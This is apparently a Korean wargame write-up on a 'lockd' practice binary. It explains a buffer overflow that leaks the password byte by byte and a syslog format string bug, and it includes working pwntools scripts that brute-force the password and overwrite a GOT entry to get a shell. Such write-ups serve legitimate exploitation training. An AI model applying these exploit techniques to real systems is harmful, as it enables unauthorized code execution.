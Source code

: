 ```yaml
---
layout: post
title: "lockd"
comments : true
category : War Game
---
```


# 문제
***

lockd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
lockd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=784b63a128e6fe76512ae058e30be767450c8e7a, stripped
```

바이너리 코드

__sub_8048A7D()__
```
int sub_8048A7D()
{
...
  v7 = __readgsdword(0x14u);
  stream = fopen("password", "rb");
  fread(&ptr, 1u, 0x10u, stream);
  fclose(stream);
  dword_804A0A4 = *(_DWORD *)&ptr;
  dword_804A0A8 = v4;
  dword_804A0AC = v5;
  dword_804A0B0 = v6;
  printf("Input master key > ");
  read(0, &buf, 0x28u);
  return memcmp(&ptr, &buf, 0x10u);
}
```

__sub_8048A7D()__의 read 함수에서 buffer overflow 취약점이 존재한다. 그리고 bof를 통해서 ptr 영역에 overwrite함으로써 password를 알 수 있다. 방법은 다음과 같다.

(X는 내가 넣은 특정한 문자를 의미하고 ?는 0x00에서 0xff 사이의 임의의 값을 의미한다. 그리고 Y는 fread를 통해 ptr에 읽어온 password의 값이다.)

1. read함수를 통해서 buf의 앞 16바이트에 XXXX XXXX XXXX XXX?를 쓰고 bof를 통해서 ptr을 XXXX XXXX XXXX XXXY와 같이 구성한다.
?에 0x00부터 0xff까지 넣어보면서 memcmp의 return 값이 0일 때를 찾는다. 이를 통해서 Y 값을 알 수 있다.
2. 동일한 방식으로 buf의 앞 16바이트에 XXXX XXXX XXXX XX?Y를 쓰고 ptr을 XXXX XXXX XXXX XXYY와 같이 구성하면 뒤에서 두 번째에 있는 Y값을 알아낼 수 있다.
3. 이 방식을 반복함으로써 password를 알 수 있다.

__sub_804897A()__
```
signed int sub_804897A()
{
  printf("Input master key > ");
  read(0, fmt, 0x14u);
  if ( memcmp(&dword_804A0A4, fmt, 0x10u) )
    return -1;
  sprintf(fmt, "./lock UNLOCK %d %d", dword_804A4C0, dword_804A0A0);
  system(fmt);
  printf("Your name > ");
  read(0, &unk_804A2C0, 0x190u);
  sprintf(fmt, "UNLOCK %d-%d by %s", dword_804A4C0, dword_804A0A0, &unk_804A2C0);
  syslog(0xD, fmt);
  return 0;
}
```

```void syslog(int priority, const char *format, ...);``` 
syslog 함수는 두 번쨰 인자로 const char *format을 받는다. 그런데 __sub_804897A()__, __sub_8048877()__ 에서 syslog 함수를 ```syslog(0xD, fmt);``` 와 같이 사용하기 때문에 fsb 취약점이 존재한다. 

## exploit 방법
1.  __sub_8048A7D()__에 존재하는 취약점을 이용해서 password를 알아낸다. (이를 통해서 __sub_804897A()__의 if문을 통과할 수 있다.)
2. fsb를 이용해서 __sub_804897A()__의 sfp에 sprintf의 got값을 넣는다. (앞의 read에서 fmt에 20바이트를 넣기 때문에 password 뒤에 ""\x0a"*2 + "sh" (뒤에 null 존재)을 넣고 바로  system을 호출하면 쉘을 딸 수 있다. 그런데 sprintf에서 17바이트를 출력한 후에 \x00을 넣어버려서 ```system("sh")```가 호출되지 않는다. "\x0a"+"sh" 앞에 null이 들어가는 것을 막기 위해서 sprintf 대신 printf를 호출하게 하려고 한다.)
3. fsb를 이용해서 sprintf_got에 printf_plt 주소를 덮어쓴다.
4. fmt를 password + "\x0a" + "sh" + "\x00" 으로 구성하면 system(fmt)에서 쉘을 딸 수 있다.

# 풀이
***

__leak_pw.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/lockd/lockd"

def sd_key(p,key):
	p.recvuntil("floor > ")
        p.sendline("1")
        p.recvuntil("number > ")
        p.sendline("1")
        p.recvuntil("key > ")
        p.send(key)
	p.recv()
	p.close()

masterkey="A"*16
masterkey=list(masterkey)

for i in range(16):
	for j in range(0x100):
		dummy="A"*4
		key="A"*(15-i)
		masterkey[15-i]=p32(j)[0]

		try:
			p=process(file_path)
			sd_key(p,''.join(masterkey)+dummy+key)
		except:
			p.close()
		else:
			break

print ''.join(masterkey)
```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def sel_2(pay):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("key > ")
	p.send(password+"\x0a"+"sh"+"\x00")
	p.recvuntil("name > ")
	p.send(pay)

password="c39f30e348c07297"

file_path="/home/lockd/lockd"
p=process(file_path)

p.recvuntil("floor > ")
p.sendline("1")
p.recvuntil("number > ")
p.sendline("1")
p.recvuntil("key > ")
p.send(password)

sprintf_got=0x804a03c
printf_plt=0x8048570

name="%"+str(sprintf_got-14)+"d"+"%9$n"
sel_2(name)

name2="%"+str(printf_plt-14)+"d"+"%21$n"
sel_2(name2)

p.recvuntil("> ")
p.sendline("2")
p.recvuntil("key > ")
p.send(password+"\x0a"+"sh"+"\x00")

p.interactive()
```

# 알게 된 것
***
1. gdb에서 디버깅 하다가 자식 프로세스 생기면 (여기서는 syslog에 의해서 생김) 동작이 멈춰버리니까 set follow-fork parent (child)를 꼭 해주자.

2. ```int printf ( const char * format, ... );```나 ```void syslog(int priority, const char *format, ...);``` 처럼 인자로 format 지정 문자열이 존재할 때 ```printf(fsb);```, ```syslog(13,fsb);```와 같이 구성하면 format string bug가 존재한다.
(format 지정 문자열 뒤에 인자가 없는 경우, or 서식 문자보다 뒤에 있는 인자의 수가 적은 )

3. ```void syslog(int priority, const char * format);```
- syslog 함수는 syslogd 데몬에게 메세지를 전송한다. (시스템에서 로그 메세지를 처리하기 위해서 제공하는 표준 인터페이스)
- syslogd 데몬은 받은 메세지를 /etc/syslog.conf에 설정된 규칙에 따라서 파일에 기록, 화면에 출력, 또는 다른 호스트에 있는 또다른 syslogd 데몬에게 포워딩한다.
- priority는 priority (메세지의 우선순위)와 facility (메세지를 발생시킨 프로그램의 종류 대한 flag)의 OR 연산을 통해 만들어짐


4. (password를 알아내는 방법과 같은) 다양한 방법을 생각 해보자???


